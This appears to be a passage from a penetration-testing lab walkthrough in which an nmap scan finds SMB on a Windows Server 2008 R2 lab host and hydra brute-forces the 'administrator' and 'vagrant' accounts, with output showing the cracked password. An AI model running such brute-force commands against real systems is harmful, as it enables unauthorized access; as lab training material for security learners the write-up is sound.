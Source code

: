 ```bash
nmap -sV -sC -p 445 10.2.26.45
```

```bash
445/tcp open  microsoft-ds Windows Server 2008 R2 Standard 7601 Service Pack 1 microsoft-ds
```

![](4-exploitationassets/image-20230424115855262.png)

- **Brute-force SMB**

```bash
hydra -l administrator -P /usr/share/wordlists/metasploit/unix_passwords.txt 10.2.26.45 smb

hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_passwords.txt 10.2.26.45 smb
```

```bash
[445][smb] host: 10.2.26.45   login: administrator   password: vagrant
[445][smb] host: 10.2.26.45   login: vagrant   password: vagrant
```

![](4-exploitationassets/image-20230424120012718.png)

- **Enumerate shares**

